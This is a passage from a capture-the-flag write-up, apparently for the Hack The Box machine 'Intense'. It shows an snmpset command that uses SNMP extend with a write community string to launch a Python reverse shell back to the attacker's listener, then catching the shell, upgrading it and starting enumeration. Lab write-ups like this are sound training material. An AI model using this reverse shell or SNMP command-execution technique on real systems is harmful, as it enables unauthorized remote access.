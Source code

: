 I tried sending a reverse shell, but got an End-of-Line error

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/usr/bin/python3' 'nsExtendArgs."command"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.15.100\",55541));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"' 
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /usr/bin/python3
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: -c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.15.100\",55541));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"
```

connected to my

after trying a few things realized that some of the internal quotes needed to be escaped for it to run properly

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nc -lvnp 55541                              
listening on [any] 55541 ...
connect to [10.10.15.100] from (UNKNOWN) [10.10.10.195] 60688
$ id && hostname
id && hostname
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
intense
```

got a shell back on my waiting nc listener

{% hint style="info" %}
There was a strange problem I encountered with this SNMP shell...if I lost my shell I would lose the ability to connect back to this box. Not sure why or how, but it took two resets of my connection pack and my local machine to get it to work again. I thought I had lost all connection to HTB, but after it happened again a few days later I tried pinging a known active box \(I think I had accidentally tried pinging a box that is inactive, leading me to believe I lost my whole connection\).  After it happened again later I reset the machine itself and this fixed it...
{% endhint %}



## Path to Power \(Gaining Administrator Access\)

### Enumeration as `Debian-snmp`

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nc -lvnp 55541
listening on [any] 55541 ...
connect to [10.10.15.100] from (UNKNOWN) [10.10.10.195] 57960
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
Debian-snmp@intense:/$ export TERM=xterm-256color
export TERM=xterm-256color
Debian-snmp@intense:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
Debian-snmp@intense:/$ id && hostname
id && hostname
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
intense
Debian-snmp@intense:/$ sudo -l
sudo -l
```
